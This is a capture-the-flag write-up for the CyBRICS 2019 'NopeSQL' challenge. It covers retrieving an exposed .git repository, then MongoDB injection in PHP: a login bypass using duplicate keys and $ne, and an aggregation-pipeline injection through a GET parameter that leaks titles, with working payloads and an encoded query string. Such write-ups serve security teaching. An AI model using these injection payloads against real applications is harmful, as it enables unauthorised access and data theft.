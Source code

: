 NopeSQL - CYBRICS 2019
======================

> Maybe you can login and find unusual secret news
> 
> http://173.199.118.226/

Overview
--------
The wesite simply prompts a login-form and a list of news. Whenever we try to login, the `Invalid username or password` message is printed on the page. Providing the `"` character in the username or the password leads to an Internal Server Error (500).

Analysis
--------
The source code of the challenge is available as a git repository under the `http://173.199.118.226/.git/`. Even is fetching this resource ends up in a 404 error, we notice that `.git` suspiciously redirects to `.git/`.

```Bash
$ curl -I http://173.199.118.226/.git
HTTP/1.1 301 Moved Permanently
Server: nginx/1.15.5 (Ubuntu)
Date: Tue, 23 Jul 2019 22:30:53 GMT
Content-Type: text/html
Content-Length: 178
Location: http://173.199.118.226/.git/
Connection: keep-alive
```

Thanks to [GitTools](https://github.com/internetwache/GitTools) we are able to easily retrieve the source code of the PHP application.

```Bash
$ ./Dumper/gitdumper.sh http://173.199.118.226/.git/ /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/5c/9aa15f0b42bdbae8ffc0e80357ea72957e90ce
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/00/4ca2a6724f62951b8267d1ee5a12a2b7248777
[+] Downloaded: objects/f1/2f1389256c70b7b166b5de142bebbb1f6c8924
[+] Downloaded: objects/4d/3e2010278f7dc7eceb8d42ab1de225d378633c
[+] Downloaded: objects/49/dc44a4e5a450cc893cf7db463b2602dc7871c4
[+] Downloaded: objects/57/18be0cde5eaba0a86f746e5d1ed251ef78c2ab
[+] Downloaded: objects/37/ae92648ead157809a0700d47ac2b59ff38a127
[+] Downloaded: objects/5a/e761b02ec5c24e304a71585714e1933553ccd7
[+] Downloaded: objects/ce/97313c601f196a33af201f5fcb9b985e3ba959
[-] Downloaded: objects/f7/2816b43e74063c8b10357394b6bba8cb1c10de
[-] Downloaded: objects/bd/148eab0493e38354e45e2cd7db59b90fdcad79

$ ./Extractor/extractor.sh /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/ /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[+] Found commit: 5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/composer.json
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/composer.lock
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce/index.php
[+] Found commit: 004ca2a6724f62951b8267d1ee5a12a2b7248777
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//1-004ca2a6724f62951b8267d1ee5a12a2b7248777/index.php
[+] Found commit: f12f1389256c70b7b166b5de142bebbb1f6c8924
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//2-f12f1389256c70b7b166b5de142bebbb1f6c8924/composer.json
[+] Found file: /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src//2-f12f1389256c70b7b166b5de142bebbb1f6c8924/index.php
```

It is now possible to run the application to ease the exploitation process by being able to locally debug the code:

```Bash
$ cd /home/lavish/Repos/ctfteam/cybrics2019/nopeSQL/src/0-5c9aa15f0b42bdbae8ffc0e80357ea72957e90ce
$ composer install
Loading composer repositories with package information
Installing dependencies (including require-dev) from lock file
Package operations: 2 installs, 0 updates, 0 removals
  - Installing fzaninotto/faker (v1.8.0): Loading from cache
  - Installing mongodb/mongodb (1.4.2): Loading from cache
Generating autoload files
$ php -S 127.0.0.1:5001 -f index.php
```

Exploitation
------------
As the challenge name suggests, the challenge is about exploiting a NoSQL database, [MongoDB](https://docs.mongodb.com) in this case. A quick overview of the source code reveals how the authentication process is handled:

```PHP
function auth($username, $password) {
    $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->users;
    $raw_query = '{"username": "'.$username.'", "password": "'.$password.'"}';
    $document = $collection->findOne(json_decode($raw_query));
    if (isset($document) && isset($document->password)) {
        return true;
    }
    return false;
}
```

Given that in the `findOne()` method, multiple keys separated by ',' are treated as `AND` conditions, the auth function can be bypassed by injecting two similar always true conditions in the username and the password. The resulting query looks like:

```Mongodb
{"username": "", "username": {"$ne": ""}, "$comment": "", "password": "", "password": {"$ne": ""}, "$comment": ""}
```

We are now prompted with a welcome message and the possibility of grouping the news by either category or publicity by providing to the GET variable filter the value `$category` or `$public`, respectively. The underlying PHP code is the following:

```PHP
<?php
    $filter = $_GET['filter'];

    $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;

    $pipeline = [
        ['$group' => ['_id' => '$category', 'count' => ['$sum' => 1]]],
        ['$sort' => ['count' => -1]],
        ['$limit' => 5],
    ];

    $filters = [
        ['$project' => ['category' => $filter]]
    ];

    $cursor = $collection->aggregate(array_merge($filters, $pipeline));
?>

<?php if (isset($filter)): ?>

    <?php
        foreach ($cursor as $category) {
                printf("%s has %d news<br>", $category['_id'], $category['count']);
        }
    ?>

<?php endif; ?>
```

A further analysis of the source code reveals another field `title` for the documents in the `news` collection. By assuming that the flag lies in the title of a news, we can inject a filter to project only the titles starting with the `cybrics` string. Do to so, we can leverage the aggregation pipeline operator [`cond`](https://docs.mongodb.com/manual/reference/operator/aggregation/cond/) and return the title of those news having the following expression that evaluates to true:

```Mongodb
{'$eq': [{'$substr': ['$title', 0, 7]}, 'cybrics']}
```

Unfortunately, we have to consider that the data structure that constitutes the MongoDB query is put together by GET variables and thus all the values that we can feed into it are strings. To put it in a different way, we can't trivially have integer values for the `start` and `length` parameters of the [`substr`](https://docs.mongodb.com/manual/reference/operator/aggregation/substr/) operator. Given that these parameters can be any valid expression as long as long as they resolve to integers, there are multiple ways to bypass this restriction. The most obvious one is to convert strings into integers using the [`toInt`](https://docs.mongodb.com/manual/reference/operator/aggregation/toInt/) operator. This operator is available starting from mongoDB v.4.0 and works reliably on the challenge server, but it is not supported by the MongoDB version shipped with my Ubuntu 18.04. So other backward-compatible-hackish-ways that _will do the job ™_ are returning the [year](https://docs.mongodb.com/manual/reference/operator/aggregation/year/) portion of a date or returning the number of bytes in a random string. We proceed with the former approach to achieve the result:

```Mongodb
{
  "$project": {
    "category": {
      "$cond": {
        "if": {
          "$eq": [
            {
              "$substr": [
                "$title",
                {
                  "$year": {
                    "$dateFromString": {
                      "dateString": "0000-02-08T12:10:40.787Z"
                    }
                  }
                },
                {
                  "$year": {
                    "$dateFromString": {
                      "dateString": "0007-02-08T12:10:40.787Z"
                    }
                  }
                }
              ]
            },
            "cybrics"
          ]
        },
        "then": "$title",
        "else": ""
      }
    }
  }
}
```

Manually building the query string is an error prone task that we can luckily avoid thanks to the PHP [`http_build_query`](https://www.php.net/manual/en/function.http-build-query.php) function (thx [smaury](https://twitter.com/smaury92) for the hint!). Using it we can generate an URL-encoded query string from a given PHP data structure such as an associative array.

```PHP
php > echo urldecode(http_build_query(json_decode('{"filter": {"$cond": {"if": {"$eq": [{"$substr": ["$title", {"$year": {"$dateFromString": {"dateString": "0000-02-08T12:10:40.787Z"}}}, {"$year": {"$dateFromString": {"dateString": "0007-02-08T12:10:40.787Z"}}}]}, "cybrics"]}, "then": "$title", "else": ""}}}')));
filter[$cond][if][$eq][0][$substr][0]=$title&filter[$cond][if][$eq][0][$substr][1][$year][$dateFromString][dateString]=0000-02-08T12:10:40.787Z&filter[$cond][if][$eq][0][$substr][2][$year][$dateFromString][dateString]=0007-02-08T12:10:40.787Z&filter[$cond][if][$eq][1]=cybrics&filter[$cond][then]=$title&filter[$cond][else]=
```

See the script [nopesql.py](nopesql.py) to perform the exploitation automatically.

Also notice that this approach involving the `$substr` operator is perfectly suitable to mount a generic blind-noSQL injection and dump arbitrary fields by iterating over incremental guesses.